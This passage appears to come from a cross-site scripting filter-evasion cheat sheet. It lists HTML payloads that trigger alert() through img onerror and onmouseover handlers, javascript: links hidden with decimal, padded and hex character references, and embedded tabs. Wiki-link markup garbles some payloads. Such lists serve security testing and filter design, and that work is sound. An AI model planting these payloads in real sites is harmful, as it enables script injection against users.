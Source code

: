 (Submitted by David Cross and edited by Abdullah Hussam)
#### Default [[_content/dictionary#S|SRC]] Tag by Leaving it Empty¶
<[[_content/dictionary#I|IMG]] SRC= onmouseover="alert('xxs')">

#### Default [[_content/dictionary#S|SRC]] Tag by Leaving it out Entirely¶
<[[_content/dictionary#I|IMG]] onmouseover="alert('xxs')">

#### On Error Alert¶
<[[_content/dictionary#I|IMG]] [[_content/dictionary#S|SRC]]=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

#### [[_content/dictionary#I|IMG]] onerror and [[_content/dictionary#J|JavaScript]] Alert Encode¶
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

#### Decimal [[_content/dictionary#H|HTML]] Character References¶
Since [[_content/dictionary#X|XSS]] examples that use a javascript: directive inside an <[[_content/dictionary#I|IMG]] tag do not work on Firefox this approach uses decimal HTML character references as a workaround:
 <a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">Click Me!</a>

#### Decimal [[_content/dictionary#H|HTML]] Character References Without Trailing Semicolons¶
This is often effective in bypassing [[_content/dictionary#X|XSS]] filters that look for the string &\#[[_content/dictionary#X|XX]];, since most people don't know about padding - which can be used up to 7 numeric characters total. This is also useful against filters that decode against strings like $tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/; which incorrectly assumes a semicolon is required to terminate a HTML encoded string (This has been seen in the wild):
<a href="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">Click Me</a>

#### Hexadecimal [[_content/dictionary#H|HTML]] Character References Without Trailing Semicolons¶
This attack is also viable against the filter for the string $tmp\_string=\~ s/.\*\\&\#(\\d+);.\*/$1/;, because it assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters:
<a href="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29">Click Me</a>

#### Embedded Tab¶
This approach breaks up the [[_content/dictionary#X|XSS]] attack:

 <a href="jav   ascript:alert('[[_content/dictionary#X|XSS]]');">Click Me</a>

#### Embedded Encoded Tab¶
This approach can also break up [[_content/dictionary#X|XSS]]:
 <a href="jav&#x09;ascript:alert('XSS');">Click Me</a>
